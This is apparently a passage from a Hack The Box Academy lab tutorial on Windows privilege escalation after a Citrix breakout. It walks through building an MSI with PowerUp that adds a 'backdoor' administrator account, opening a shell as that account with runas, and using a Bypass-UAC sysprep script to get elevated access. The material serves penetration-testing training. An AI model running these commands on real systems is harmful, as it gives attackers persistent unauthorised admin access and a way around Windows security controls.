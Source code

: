 ```powershell
PS C:\Users\pmorgan\Desktop> Import-Module .\PowerUp.ps1
PS C:\Users\pmorgan\Desktop> Write-UserAddMSI
	
Output Path
-----------
UserAdd.msi
```

Now we can execute `UserAdd.msi` and create a new user `backdoor:T3st@123` under Administrators group. Note that giving it a password that doesn’t meet the password complexity criteria will throw an error.

![Image](https://academy.hackthebox.com/storage/modules/67/useradd.png)

Back in CMD execute `runas` to start command prompt as the newly created `backdoor` user.

```powershell
C:\> runas /user:backdoor cmd

Enter the password for backdoor: T3st@123
Attempting to start cmd as user "VDESKTOP3\backdoor" ...
```

---
## Bypassing UAC

Even though the newly established user `backdoor` is a member of `Administrators` group, accessing the `C:\users\Administrator` directory remains unfeasible due to the presence of User Account Control (UAC). UAC is a security mechanism implemented in Windows to protect the operating system from unauthorized changes. With UAC, each application that requires the administrator access token must prompt the end user for consent.

```powershell
C:\Windows\system32> cd C:\Users\Administrator

Access is denied.
```

Numerous [UAC bypass](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) scripts are available, designed to assist in circumventing the active User Account Control (UAC) mechanism. These scripts offer methods to navigate past UAC restrictions and gain elevated privileges.

Citrix Breakout

```powershell
PS C:\Users\Public> Import-Module .\Bypass-UAC.ps1
PS C:\Users\Public> Bypass-UAC -Method UacMethodSysprep
```

![Image](https://academy.hackthebox.com/storage/modules/67/bypass_uac.png)

Following a successful UAC bypass, a new powershell windows will be opened with higher privileges and we can confirm it by utilizing the command `whoami /all` or `whoami /priv`. This command provides a comprehensive view of the current user's privileges. And we can now access the Administrator directory.
